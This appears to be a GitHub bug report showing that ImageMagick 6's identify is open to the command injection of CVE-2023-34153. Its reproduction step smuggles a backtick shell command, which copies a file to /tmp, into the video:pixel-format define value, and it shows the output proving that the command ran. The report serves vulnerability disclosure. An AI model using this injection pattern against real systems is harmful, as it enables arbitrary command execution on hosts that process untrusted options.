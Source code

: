6系のバージョンで確認する場合のメモ

### ImageMagick version
```
convert -version                                                                                
Version: ImageMagick 6.9.11-60 Q16 x86_64 2021-01-25 https://imagemagick.org
```
7以降はmagick <option>を使用、6系はconvert,dentifyなどのコマンドを使う。（すでにある7.0のイシューと違うのはそこだけ）。
  
ImageMagick 7.0 use command magick <option> insted of  6.0 convert,dentify,etc.


### Operating system
Linux


### Steps to Reproduce
Given a normal video file, namely test.mov, the following demonstrates how command injection happens.

  
```
/home/test/exp
➜ echo 'deadbeef' > test.txt

/home/test/exp
➜ dentify -define video:pixel-format="rgba `cat test.txt > /tmp/leak.txt`" test.mov >info.log 

/home/test/exp
➜ tail info.log
test.mov[20] MOV 788x488 788x488+0+0 8-bit TrueColor sRGB 0.030u 0:00.028
test.mov[21] MOV 788x488 788x488+0+0 8-bit TrueColor sRGB 0.030u 0:00.026
test.mov[22] MOV 788x488 788x488+0+0 8-bit TrueColor sRGB 0.030u 0:00.024
test.mov[23] MOV 788x488 788x488+0+0 8-bit TrueColor sRGB 0.020u 0:00.022
test.mov[24] MOV 788x488 788x488+0+0 8-bit TrueColor sRGB 0.020u 0:00.021
test.mov[25] MOV 788x488 788x488+0+0 8-bit TrueColor sRGB 0.020u 0:00.018
test.mov[26] MOV 788x488 788x488+0+0 8-bit TrueColor sRGB 0.020u 0:00.017
test.mov[27] MOV 788x488 788x488+0+0 8-bit TrueColor sRGB 0.020u 0:00.014
test.mov[28] MOV 788x488 788x488+0+0 8-bit TrueColor sRGB 0.020u 0:00.013
test.mov[29] MOV 788x488 788x488+0+0 8-bit TrueColor sRGB 33.0075MiB 0.020u 0:00.011

/home/test/exp
➜ cat /tmp/leak.txt
deadbeef
```

### Appendix
https://github.com/advisories/GHSA-7c5r-cghm-f2jx

https://github.com/ImageMagick/ImageMagick/issues/6338

https://nvd.nist.gov/vuln/detail/CVE-2023-34153

https://imagemagick.org/script/identify.php
